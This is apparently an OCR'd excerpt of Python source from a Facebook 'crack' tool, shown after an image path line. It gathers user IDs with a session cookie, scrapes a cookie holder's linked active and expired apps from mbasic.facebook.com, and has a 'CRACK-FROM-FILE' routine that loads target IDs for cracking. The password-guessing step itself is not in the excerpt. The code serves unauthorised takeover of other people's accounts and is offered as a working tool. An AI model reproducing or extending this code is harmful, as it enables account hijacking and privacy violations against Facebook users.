                                          else:id.append(iso) 
                                 except:continue 
                 except (KeyError,IOError): 
                         pass 
                 except requests.exceptions.ConnectionError: 
                         print('#TRY AGAIN ') 
                         os.system('clear') 
         try: 
                 print('') 
                 print(f'{P}#TOTAL ID={b}'+str(len(id))) 
                 print('') 
                 setting() 
         except requests.exceptions.ConnectionError: 
                 print(f'{u}') 
                 back() 
         except (KeyError,IOError): 
                 print(f'#{k} IF ID IS PUBLIC THEN TRY AGAIN WITH NEW COOKIE OTHRWISE CHECK YOUR ID LINK {u}') 
                 time.sleep(3) 
                 back() 
                  
                  
 def cek_apk(session,coki): 
     w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text 
     sop = BeautifulSoup(w,"html.parser") 
     x = sop.find("form",method="post") 
     game = [i.text for i in x.find_all("h3")] 
     if len(game)==0: 
         print(f'\r %s[%s!%s] %sSorry there is no Active Apk%s  '%(N,M,N,M,N)) 
     else: 
         print(f'\r 🎮  %sYour Active Application Details :'%(H)) 
         for i in range(len(game)): 
             print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N)) 
         #else: 
             #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N)) 
     w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text 
     sop = BeautifulSoup(w,"html.parser") 
     x = sop.find("form",method="post") 
     game = [i.text for i in x.find_all("h3")] 
     if len(game)==0: 
         print(f'\r %s[%s!%s] %sSorry no Expired Apk%s           \n'%(N,M,N,M,N)) 
     else: 
         print(f'\r 🎮  %sYour Expired Application Details :'%(M)) 
         for i in range(len(game)): 
             print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N)) 
         else: 
             print(f'\r') 
             #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie\n'%(N,M,N)) 
 #-------------[ CRACK-FROM-FILE ]------------------# 
 def crack_file(): 
         o = input('FILE NAME : ') 
         print('') 
         try:lin = open(o).read().splitlines() 
         except: 
                 print('• File Not Found') 
                 time.sleep(2) 
                 back() 
         for xid in lin: 
                 id.append(xid) 
         setting() 
          